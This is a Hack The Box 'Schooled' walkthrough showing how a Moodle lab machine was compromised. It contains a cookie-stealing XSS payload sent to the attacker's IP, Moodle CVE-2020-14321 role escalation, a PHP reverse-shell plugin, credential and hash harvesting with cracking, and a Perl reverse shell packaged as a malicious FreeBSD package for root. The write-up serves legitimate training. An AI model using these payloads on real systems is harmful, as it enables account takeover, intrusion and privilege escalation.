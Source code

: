 ```yaml
---
title: "[HTB] Schooled - Walkthrough"
layout: post
tags: HTB
---
```


# Main points
* vhosts with gobuster
* XSS to steal teacher cookie
* Moodle RCE ver3.9 CVE-2020-14321
# Enumeration
We start with nmap scan
* 22/tcp    open     ssh     syn-ack     OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
* 80/tcp    open     http    syn-ack     Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
* 33060/tcp open     mysqlx? syn-ack

Let's check the website
In the `/about.html` page, we see that they use Moodle for teaching
![Pasted image 20210727203524.png](/assets/Pasted%20image%2020210727203524.png)

So there is probably a moodle subdomain, something like `moodle.schooled.htb` or `moodle-app.schooled.htb` let's bruteforce with `gobuster`

```bash
gobuster vhost --url http://schooled.htb --wordlist /usr/share/wordlists/SecLists/DNS/subdomains-top1million-5000.txt
```

We found moodle subdomain `moodle.schooled.htb`
![Pasted image 20210727204456.png](/assets/Pasted%20image%2020210727204456.png)

Let's create an account (in the email, they only accept from domain `student.schooled.htb`)

![Pasted image 20210727205316.png](/assets/Pasted%20image%2020210727205316.png)

We enroll to the Math course and we see there is an Announcement
![Pasted image 20210727211040.png](/assets/Pasted%20image%2020210727211040.png)
Let's check the reminder
![Pasted image 20210727211055.png](/assets/Pasted%20image%2020210727211055.png)
![Pasted image 20210727211107.png](/assets/Pasted%20image%2020210727211107.png)

So we need to find this MoodleNet profile, and since the teacher will check all the profiles, we can steal his cookies and get a teacher account.

We go to our profile and edit the profile
![Pasted image 20210728001605.png](/assets/Pasted%20image%2020210728001605.png)

![Pasted image 20210728001622.png](/assets/Pasted%20image%2020210728001622.png)

We can see the `MoodleNet profile` field that the teacher will check, let's try and put an XSS payload.
`<img src=x onerror=document.location='http://10.10.14.64/?'+document.cookie;>`
Setup a python HTTP server and wait for the request, unrenrol and enroll again to the course to make the teacher check your MoodleNet Profile
![Pasted image 20210728003101.png](/assets/Pasted%20image%2020210728003101.png)

look at me, I am the teacher now
We copy the cookie and replace it in the browser devtool
![Pasted image 20210728003212.png](/assets/Pasted%20image%2020210728003212.png)
We go the main page
We are the teacher manuel philips
![Pasted image 20210728003326.png](/assets/Pasted%20image%2020210728003326.png)

Scroll down
![Pasted image 20210728003723.png](/assets/Pasted%20image%2020210728003723.png)
This redirects to the URL `https://docs.moodle.org/39/en/course/view/topics`
Which means this moodle version si `3.9`, let's look for vulnerabilities for it.

We find a moodle RCE as `CVE-2020-14321` according to [Hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-web/moodle#rce) we will need to escalate to Manager role to allow ourself to install plugin and install our php revshell as plugin
We find this PoC video
<iframe src="https://player.vimeo.com/video/441698193" width="640" height="380" frameborder="0" allow="autoplay; fullscreen; picture-in-picture" allowfullscreen></iframe>

Let's do the same, we start burp suite, and try to assign Manager role to the user student `Yamanak tameguchi` (our created user)

![Pasted image 20210728012730.png](/assets/Pasted%20image%2020210728012730.png)
Make sure to change these
![Pasted image 20210728013039.png](/assets/Pasted%20image%2020210728013039.png)
`userlist%5B%5D=<YOUR USER ID OF MANUEL PHILIPS>&roletoassign=1`

And our user is Manager
![Pasted image 20210728013128.png](/assets/Pasted%20image%2020210728013128.png)

We go to his profile and scroll down and click "Login as"
Now we are logged with Manager role
![Pasted image 20210728013303.png](/assets/Pasted%20image%2020210728013303.png)

And we have site administration
![Pasted image 20210728020100.png](/assets/Pasted%20image%2020210728020100.png)

Edit the Manager role and catch the request in burp suite, and replace the payload with the one in the github [repo](https://github.com/HoangKien1020/CVE-2020-14321#payload-to-full-permissions) to get full permission as manager

From the repo download the zip, extract it, and replace the php file with the revshell from Pentestmonkey, and zip it again.

Now go to install plugin 
![Pasted image 20210728020811.png](/assets/Pasted%20image%2020210728020811.png)

And upload your zip file
![Pasted image 20210728020953.png](/assets/Pasted%20image%2020210728020953.png)
And install it

Setup a netcat listener
![Pasted image 20210728021005.png](/assets/Pasted%20image%2020210728021005.png)

And go to `http://moodle.schooled.htb/blocks/rce/lang/en/block_rce.php`

And we have a shell
![Pasted image 20210728021421.png](/assets/Pasted%20image%2020210728021421.png)

After a bit of looking around we find 2 users in `/etc/passwd` `jamie` and `steve`
Let's find `config.php` files to see if we can grab some creds
```bash
find / -iname "config.php" 2> /dev/null
```

![Pasted image 20210728023534.png](/assets/Pasted%20image%2020210728023534.png)

Let's check
`/usr/local/www/apache24/data/moodle/config.php`

```php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8_unicode_ci',
);

$CFG->wwwroot   = 'http://moodle.schooled.htb/moodle';
$CFG->dataroot  = '/usr/local/www/apache24/moodledata';
$CFG->admin     = 'admin';

$CFG->directorypermissions = 0777;

require_once(__DIR__ . '/lib/setup.php');

// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!
```

So now we have database MySQL creds
`moodle: PlaybookMaster2020`
Let's connect with `mysql`

```bash
/usr/local/bin/mysql -u moodle -pPlaybookMaster2020
```
Let's see the tables of the database
![Pasted image 20210728024138.png](/assets/Pasted%20image%2020210728024138.png)

From the table we see table `mdl_user` let's check the content
```SQL
select * from mdl_user;
```

We have a lot of data, but we can see there is user and hash, let's take the hash of `steve` or `jamie`, whatever we find ^^
(I couldnt get full output so I used this command)

```bash
/usr/local/bin/mysql -u moodle -pPlaybookMaster2020 -e "use moodle; select * from mdl_user;" | grep jamie
```
We have the hash of jamie
`$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW`
Let's crack it with john
```bash
john hash -w /usr/share/wordlists/rockyou.txt --format=bcrypt
```

We have password of `jamie:!QAZ2wsx` 
We can ssh to it, and we have user flag

# Priv Esc
When we do `sudo -l` we see
![Pasted image 20210728030207.png](/assets/Pasted%20image%2020210728030207.png)
So we can install/update a package, so naturally we should try to make a malicious package and install it using `sudo`

We see on [GTFOBins](https://gtfobins.github.io/gtfobins/pkg/) that we can use `fpm` to compile a malicious package, let's create a reverse shell that will get us root

On your machine
```
TF=$(mktemp -d)
echo perl "-e" "'"'use Socket;$i="10.10.14.64";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'"'" > $TF/x.sh
fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
```
Download it on victim machine using `wget` or `curl` while setting your python HTTP Server.
Setup your netcat listener

On victim machine
```
sudo pkg install -y --no-repo-update ./x-1.0.txz
```
And we have root on our netcat listener
![Pasted image 20210728142434.png](/assets/Pasted%20image%2020210728142434.png)

And we have the flag

## Root hash
`$6$aHA/oB17Vb9TqNGn$GKTw/EWJfAl05/knP2YNId6xbyaAiGh.pfkeD5X/VQa/WtgI7jy5B7yO8Pvvyl1g3sbPATF3Mnn58sjXJgYAS0`